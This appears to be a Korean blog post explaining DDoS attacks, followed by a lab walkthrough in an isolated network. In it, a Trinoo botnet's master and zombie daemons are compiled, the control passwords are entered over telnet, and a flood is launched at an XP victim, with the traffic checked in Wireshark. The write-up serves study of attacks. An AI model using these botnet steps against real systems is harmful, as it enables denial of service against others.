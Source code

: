 ```yaml
---
title:  "DDOS" 

categories:
  - ddos&drdos
tags:
  - [ddos]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## DDOS

- DDoS (Distribution Denial of Service)

  - 분산 서비스 거부 공격

  - DoS 공격의 발전 형태

  - 공격 시스템을 여러 대로 분산 배치하여 대량의 트래픽으로 공격대상의 서비스를 마비시키는 공격

    > 악성코드 등을 이용하여 Zombie PC를 획득하여 C&C서버를 통해 공격 명령을 내림

  - 기본적으로 공격의 형태가 (1 → N) vs 1

    > (공격자(1) → 좀비PC(N)) vs 공격대상(1)

- 공격 방식
  - 물리적인 파괴
  - 시스템 리소스 공격 → CPU, Memory, Disk, 특정 Application ...
  - 네트워크 대역폭 공격 → 대역폭 고갈

- 실습

  - 구성도

    ![화면 캡처 2022-10-06 174531](../../assets/img/화면 캡처 2022-10-06 174531-1665051434069-25.png)

  - Master, agent 에서 gcc 설치

    ```
    # yum -y install gcc
    ```

  - master(C&C)에서 설정

    ```
    # gcc
    ```

    ![화면 캡처 2022-10-06 191936](../../assets/img/화면 캡처 2022-10-06 191936.png)

    ```
    [root@localhost ~]# cd ./master
    [root@localhost master]# make
    ```

    ![화면 캡처 2022-10-06 192623](../../assets/img/화면 캡처 2022-10-06 192623.png)

    ```
    [root@localhost master]# ls
    ```

    ![화면 캡처 2022-10-06 192705](../../assets/img/화면 캡처 2022-10-06 192705-1665053340686-30.png)

  - agent(zombie)에서 설정

    ```
    [root@localhost ~]# cd daemon/
    [root@localhost daemon]# ls
    ```

    ![fdsafs](../../assets/img/fdsafs.png)

    ```
    C&C 서버의 주소를 입력
    [root@localhost daemon]# vi ns.c
    ```

    ![화면 캡처 2022-10-06 192924](../../assets/img/화면 캡처 2022-10-06 192924.png)

    ```
    실행 파일 컴파일을 위해서 master 디렉터리의 내용을 복사
    [root@localhost daemon]# cp /root/master/* /root/daemon/
    [root@localhost daemon]# ls
    ```

    ![화면 캡처 2022-10-06 193135](../../assets/img/화면 캡처 2022-10-06 193135.png)

    ```
    파일 수정
    [root@localhost daemon]# vim Makefile
    ```

    ![화면 캡처 2022-10-06 194016](../../assets/img/화면 캡처 2022-10-06 194016.png)

    ```
    컴파일 수행
    [root@localhost daemon]# make
    ```

    ![화면 캡처 2022-10-06 194158](../../assets/img/화면 캡처 2022-10-06 194158.png)

    ![화면 캡처 2022-10-06 194214](../../assets/img/화면 캡처 2022-10-06 194214.png)

  - master(C&C) 설정

    ```
    [root@localhost master]# ./master 
    ?? gOrave (대문자 O)
    ```

    ![화면 캡처 2022-10-06 194241](../../assets/img/화면 캡처 2022-10-06 194241.png)

    ```
    포트 번호 확인
    [root@localhost master]# netstat -antup | grep master
    ```

    ![화면 캡처 2022-10-06 194451](../../assets/img/화면 캡처 2022-10-06 194451.png)

  - agent(zombie) 

    ```
    master 에 연결
    [root@localhost daemon]# ./daemon
    [root@localhost daemon]# netstat -antup | grep daemon
    ```

    ![화면 캡처 2022-10-06 194547](../../assets/img/화면 캡처 2022-10-06 194547.png)

  - kali (attacker)에서 공격수행

    ```
    └─# telnet 172.16.0.111 27665
    ```

    ![vcxzvczxvcz](../../assets/img/vcxzvczxvcz.png)

    ```
    betaalmostdone 입력
    ```

    ![화면 캡처 2022-10-06 201435](../../assets/img/화면 캡처 2022-10-06 201435.png)

    ```
    정보확인
    trinoo> info
    ```

    ![화면 캡처 2022-10-06 194630](../../assets/img/화면 캡처 2022-10-06 194630.png)

    ```
    현재 연결된 agent 목록
    trinoo> bcast
    ```

    ![화면 캡처 2022-10-06 194700](../../assets/img/화면 캡처 2022-10-06 194700.png)

    ```
    공격
    trinoo> dos 172.16.0.100(xp)
    ```

  - 와이어샤크 확인

    > kali(attacker)

    ![화면 캡처 2022-10-06 200930](../../assets/img/화면 캡처 2022-10-06 200930.png)

    > xp (victim)

    ![화면 캡처 2022-10-06 200737](../../assets/img/화면 캡처 2022-10-06 200737.png)